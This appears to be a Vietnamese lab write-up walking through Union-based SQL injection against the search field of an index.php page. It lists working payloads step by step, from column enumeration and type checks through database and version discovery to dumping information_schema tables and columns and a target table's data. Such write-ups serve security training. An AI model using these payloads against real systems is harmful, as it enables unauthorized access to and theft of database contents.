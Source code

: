 Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- Khai thác SQLi Union Based chức năng search ở trang index.php
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`
![Hinh 1.!](~/../img/1.png)

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
![Hinh 2.!](img\2.png)

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 3.!](img\3.png)

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 
![Hinh 4.!](img\4.png)

6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 
![Hinh 5.!](img\5.png)

7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 
![Hinh 6.!](img\6.png)

8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string
![Hinh 7.!](img\7.png)

9. Kiểm tra DB hiện tại
`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 8.!](img\8.png)

10.  Version của DB
`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 9.!](img\9.png)

11. Lấy tất cả các table có trong DB
`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)
![Hinh 10.!](img\10.png)

12. Lấy tất cả các trường trong bảng admin_func
`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn
![Hinh 11.!](img\11.png)

13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
![Hinh 12.!](img\12.png)
